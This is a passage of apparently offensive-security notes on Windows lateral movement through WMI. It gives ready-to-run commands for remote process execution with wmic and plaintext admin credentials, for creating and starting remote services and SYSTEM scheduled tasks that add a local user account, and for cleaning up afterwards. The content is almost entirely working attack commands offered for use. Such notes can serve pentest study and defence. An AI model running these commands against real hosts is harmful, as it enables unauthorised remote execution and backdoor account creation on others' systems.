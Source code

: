On legacy systems, the same can be donde using wmic from the command prompt:
```cmd
wmic.exe /user:Administrator /password:Password123 /node:TARGET process call create "cmd.exe /c calc.exe"
```

## Creating Services Remotely with WMI
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

To create services with WMI through powershell, we can use the following:
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "ServiceName1";
DisplayName = "ServiceName1";
PathName = "net user UserName Pass123 /add";
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```
And then, we can get a handle on the service and start it with the following commands:
```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'ServiceName1'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```
Finally, we clean with the following:
```powershell
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```


## Creating Scheduled Tasks Remotely with WMI
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

To create scheduled tasks we can use some cmdlets available in Windows default installations:
```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user UserName Pass123 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "TaskName1"
Start-ScheduledTask -CimSession $Session -TaskName "TaskName1"
```
To clean up we use:
```powershell
Unregister-ScheduledTask -CimSession $Session -TaskName "TaskName1"
```

